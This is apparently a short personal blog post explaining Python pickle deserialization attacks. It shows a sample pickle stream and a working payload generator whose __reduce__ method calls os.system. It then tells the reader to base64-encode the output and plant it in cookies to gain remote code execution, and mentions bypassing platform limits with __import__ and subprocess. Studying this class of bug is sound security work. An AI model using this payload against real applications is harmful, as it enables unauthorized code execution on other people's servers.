 ```yaml
---
title: pickle serializatoin
published: 2024-06-24
description: 'some picle stuff with serializatoin in java /javascript'
image: './move.gif'
tags: [serialisation,exploit]
category: 'serialisation'
draft: false
---
```


pickle shit is basically a python / could as well be js i guess , it helps serialize and reserialize objects , you can check js files or decode files to identify the pickle format which is usually something like that:
```json
	Hack
(dp1
S'test1'
p2
S'test'
p3
sS'test2'
p4
S'retest'
p5
sb.
```

+ one thing to pay attention to is that , to pickle you payload and get the shell or the RCE we are after you need to pickle on the same platform as the server runs at , win/unix .
+ so to create a milecious object just use the script :
```python
import cPickle
import os
class Blah(object):
  def __reduce__(self):
    return (os.system,("command to run ",)) 
h = Blah()
print cPickle.dumps(h)
```
now all you need is execute this and encode it as base64 and put in where it shall be exploited like in cookies for example.
+ you can use You can bypass the limitation of platform by using subprocess with \_\_import\_\_
+  finding what is managed by the application/framework natively (the session mechanism) and what has been added by the developer is the KEY.
+ 

